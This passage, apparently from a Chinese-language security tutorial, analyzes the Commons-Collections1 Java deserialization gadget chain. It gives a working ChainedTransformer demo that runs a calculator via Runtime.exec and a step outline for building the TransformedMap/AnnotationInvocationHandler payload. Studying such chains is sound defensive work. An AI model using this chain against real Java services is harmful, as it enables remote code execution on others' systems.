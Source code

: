 demo 代码：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class ChainedTransformerDemo {

    public static void main(String[] args) throws ClassNotFoundException{
        // Transformer 数组
        Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };

        // ChainedTransformer 实例
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        chainedTransformer.transform("ChainedTransformerDemo");
    }
}
```

<img src="./images/8.png" alt="">

## Commons-Collections1-TransformedMap 分析
利用`TransformedMap`的`decorate`方法来将`ChainedTransformer`设置为`map`装饰器的处理方法，调用`TransformedMap`的`put()/setValue()`等方法时会触发`Transformer`链的调用方法。
寻找一个重写了`readObject`的类，在反序列化时可以改变`map`的值，定位到`sun.reflect.annotation.AnnotationInvocationHandler`类，这个类实现了`InvocationHandler`接口 (原本是用于`JDK`对于注解形式的动态代理)。

`AnnotationInvocationHandler`类的构造方法有两个参数，第一个参数是`Annotation`实现类的`Class`对象，第二个参数是一个`key`为`String`、`value`为`Object`的`Map`，需要注意的是，构造方法会对`var1`进行判断，当且仅当`var1`只有一个父接口且为`Annotation.class`时，才会将两个参数初始化在成员属性`type`和`memberValues`中。

![undefined](https://p2.ssl.qhimg.com/t01bc2115c0964e349f.png "undefined")

接着看看`AnnotationInvocationHandler`类重写的`readObject`方法，首先调用`AnnotationType.getInstance(this.type)`方法来获取`type`这个注解类对应的`AnnotationType`的对象，然后获取其`memberTypes`属性，这个属性是个`Map`，存放这个注解中可以配置的值，接着循环`this.memberValues`这个`Map`来获取其`Key`，如果注解类的`memberTypes`属性中存在与`this.memberValues`的`key`相同的属性，并且取得的值不是`ExceptionProxy`的实例也不是`memberValues`中值的实例，则取得其值并调用`setValue`方法写入值。

![undefined](https://p2.ssl.qhimg.com/t01d8b939c237f503e4.png "undefined")

根据上面的分析过程，构造`Payload`的思路基本就没啥问题了。

```
[1] 构造 AnnotationInvocationHandler 实例，传入一个注解类和一个 Map，这个 Map 的 key 中要具有注解类中存在的属性并且值不是对应的实例和 ExceptionProxy 对象
[2] 这个 Map 用 TransformedMap 进行封装，并且调用自定义的 ChainedTransformer 进行装饰
[3] ChainedTransformer 中写入多个 Transformer 实现类来进行链式调用从而达到恶意操作
```
